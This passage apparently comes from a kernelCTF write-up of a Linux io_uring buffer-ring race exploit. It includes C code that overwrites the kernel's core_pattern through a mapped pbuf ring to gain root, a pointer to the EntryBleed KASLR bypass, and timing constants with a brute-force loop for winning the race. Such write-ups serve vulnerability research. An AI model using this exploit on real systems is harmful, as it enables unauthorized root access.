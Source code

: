 ``` c
    pbuf = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, ioring_fd, IORING_OFF_PBUF_RING + (0x69 << IORING_OFF_PBUF_SHIFT));
    strcpy(pbuf + (CORE_PATTERN_OFFSET & 0xfff), "|/proc/%P/fd/666 %P");
    // [...]
}
```

## 3.4. Bypass KASLR

The vulnerability primitive does not provide a way to leak kernel addresses and is only exploitable when a valid kernel text address is known, as setting the `buf_ring` pointer requires it.

To address this, we use EntryBleed, a time-based side-channel attack, to leak the kernel base address. More details can be found at https://www.willsroot.io/2022/12/entrybleed.html or other kernelCTF submissions.

## 3.5. Extend the Race Window

Because this vulnerability can only be triggered under a very specific execution order, it is necessary to extend the race window for both threads to increase the probability of success.

Through experimentation, we observed that the syscall handling overhead in the remote environment is approximately 150 nanoseconds. As a result, each timeout macro includes an additional offset of 150 to account for this overhead. Based on this, we can determine two reasonable timeout ranges for hitting the race.

``` c
#define DEFAULT_TIMEOUT_CPU0 (850  + 150)
#define MAX_TIMEOUT_CPU0     (1700 + 150)
#define SHIFT_TIMEOUT_CPU0   10

#define DEFAULT_TIMEOUT_CPU1 (1000 + 150)
#define MAX_TIMEOUT_CPU1     (2000 + 150)
#define SHIFT_TIMEOUT_CPU1   10
```

The timeout values are adjusted dynamically on each exploitation attempt to explore different timing combinations and maximize the chances of hitting the race window.

``` c
int main(int argc, char *argv[])
{
    // [...]
    // ==================== upgrade thread (cpu-0) ====================
    pin_on_cpu(0);
    while (1) {
        /**
         * Depending on the host and our luck, the required timeout may vary.
         * The simplest method is to brute-force all possible timeout values.
         */
        timeout_upgrade_thread_cpu0 += SHIFT_TIMEOUT_CPU0;
        if (timeout_upgrade_thread_cpu0 >= MAX_TIMEOUT_CPU0) {
            timeout_upgrade_thread_cpu0 = DEFAULT_TIMEOUT_CPU0;
            
            timeout_mmap_thread_cpu1 += SHIFT_TIMEOUT_CPU1;
            if (timeout_mmap_thread_cpu1 >= MAX_TIMEOUT_CPU1)
                timeout_mmap_thread_cpu1 = DEFAULT_TIMEOUT_CPU1;
        }
        // [...]
    }
}
```
